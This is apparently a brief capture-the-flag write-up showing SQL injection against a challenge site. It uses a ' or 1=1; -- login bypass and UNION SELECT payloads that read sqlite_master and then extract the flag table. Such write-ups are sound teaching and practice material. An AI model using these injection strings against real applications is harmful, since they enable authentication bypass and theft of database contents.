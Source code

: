   ![image](https://github.com/nhattanhh/CTF/assets/130430279/263162c9-f183-4469-a2a9-a2a029a4e952)

  try 
  
  username: user
  
  password: user

  You will received this:
  
  ![image](https://github.com/nhattanhh/CTF/assets/130430279/a2908bbb-16e5-484f-82fb-a92a5990bb6b)

  try SQLinjection with password because here we can see they receive password first.
  
  username: 1
  
  password: ' or 1=1; --

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/2e6a269a-5576-4f43-88e1-284b80b0984e)

  I think that this search box can execute sqli.
 
  try:  Algiers' union select sql,1,1 from sqlite_master;--

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/3217e94e-907e-402e-8296-fc9f2cfb12ad)

  And:  Angiers' union select flag,1,1 from more_table;--

  ![image](https://github.com/nhattanhh/CTF/assets/130430279/fbf6bb2c-af9e-4ced-b497-27f037a565d0)

  *BOOM*


